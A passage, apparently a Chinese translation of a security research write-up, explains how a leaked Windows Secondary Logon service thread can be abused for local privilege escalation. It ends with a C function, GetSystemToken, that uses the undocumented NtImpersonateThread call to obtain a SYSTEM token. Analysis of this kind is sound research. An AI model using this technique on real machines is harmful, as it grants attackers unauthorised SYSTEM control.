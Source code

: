 *   它只是改变了用户模式执行上下文。如果线程是在non-alertable wait状态时，直到一些未确定的情况满足时，才会开始执行。
*   由于我们没有进程句柄，所以我们不能轻易地把shellcode注到内存中，所以我们需要ROP一下绕过DEP。
*   虽然我们可以把内存注入到进程中（比如通过RPC发送一个大buffer），但是注完了我们也不知道这片东西保存到哪儿了，特别是64位那么大的地址空间。虽然我们可以调用GetThreadContext来得到一个信息泄漏，但是还不够。
*   如果出错了那么服务就崩溃了，这是我们希望避免的。
*   虽然使用SetThreadContext方法来利用成功率100%，但是十分痛苦，如果我们能够避免ROP就更好了。所以我更想要一个合乎逻辑的漏洞，而在这个例子中的漏洞性质和服务都对我们有利。

 Secondary Logon服务的全部要点是创建任意token的新进程，所以如果我们能以某种方式欺骗服务使用特权访问令牌和绕过安全限制，我们应该能够提升我们的特权。咋整？让我们来看看服务实现CreateProcessWithLogon的代码序列。

```
RpcImpersonateClient();
Process = OpenProcess(CallingProcess);
Token = OpenThreadToken(Process)
If Token IL < MEDIUM_IL Then Error;
RpcRevertToSelf();
RpcImpersonateClient();
Token = LsaLogonUser(...);
RpcRevertToSelf();
ImpersonateLoggedOnUser(Token);
CreateProcessAsUser(Token, ...);
RevertToSelf();

```

这段代码大量使用了身份模拟，因为我们已经获取了一个带有THREAD_IMPERSONATE 访问权限的线程，所以我们可以设置线程的模拟令牌。如果我们在服务调用LsaLogonUser时设置了一个有权限的模拟句柄我们可以获取一个该token的拷贝，并可以用它来创建任意进程。

如果我们能够清除模拟令牌（然后它们会退回主系统句柄）事情就会简单得多。但是不幸的是IL check阻挡了我们的脚步。如果我们在错误的时间清除了句柄OpenThreadToken将会失败，并且IL检查会拒绝访问。所以我们需要从另一个地方拿到有权限的模拟令牌。有无数种方法能做到，比如通过WebDAV与NTML协商，但是这只会增加复杂度。能不能通过其他方法不借助其他资源来拿到token呢？

有个未文档化的nt系统调用NtImpersonateThread 可以帮上忙。

```
NTSTATUS NtImpersonateThread(HANDLE ThreadHandle, 
                            HANDLE ThreadToImpersonate, 
                            PSECURITY_QUALITY_OF_SERVICE SecurityQoS)

```

这个系统调用允许你基于另一个线程的状态应用一个模拟token到一个线程上，如果源线程没有模拟token，内核就会从关联的进程主token创建一个。尽管没啥用，但是这可能让我们用同一个线程的句柄来为目标和源创建模拟。因为这是个系统服务，所以我们需要拿到一个系统模拟token。通过下面代码可以实现：

```
HANDLE GetSystemToken(HANDLE hThread) {
  // Suspend thread just in case.
  SuspendThread(hThread);

  SECURITY_QUALITY_OF_SERVICE sqos = {};
  sqos.Length = sizeof(sqos);
  sqos.ImpersonationLevel = SecurityImpersonation;
  // Clear existing thread token.
  SetThreadToken(&hThread, nullptr);
  NtImpersonateThread(hThread, hThread, &sqos);

  // Open a new copy of the token.
  HANDLE hToken = nullptr;
  OpenThreadToken(hThread, TOKEN_ALL_ACCESS, FALSE, &hToken);
  ResumeThread(hThread);

  return hToken;

｝

```
